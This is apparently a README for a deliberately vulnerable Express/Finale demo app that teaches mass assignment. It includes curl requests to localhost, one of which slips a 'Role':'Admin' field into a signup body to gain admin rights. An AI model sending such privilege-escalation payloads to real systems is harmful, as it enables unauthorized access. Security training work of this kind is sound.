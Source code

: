 # Mass Assignment with Express and Finale

This application is a demonstration prototype just to show how to perform Mass Assignment attack.

## Setup

- Install

```
npm install
```

- Init database

```
NODE_ENV="dev" npx sequelize-cli db:migrate
```

- Run

```
NODE_ENV="dev" npm start
```

## Usage

- Signup as Visitor

```
DATA='{"Login":"hobbit","firstName":"Frodon","lastName":"Sacquet"}'
```

```
curl --header "Content-Type: application/json" \
  --request POST \
  --data $DATA' \
  http://localhost:3000/users
```

Look into the HTTP response: How to exploit Mass Assignment Attack ?

- Signup as Admin (using Mass Assignment Attack)

```
DATA='{"Login":"pwned","firstName":"pwned","lastName":"pwned","Role":"Admin"}'
```

```
curl --header "Content-Type: application/json" \
  --request POST \
  --data $DATA \
  http://localhost:3000/users
```

- Get all users

```
curl http://localhost:3000/users | jq
```
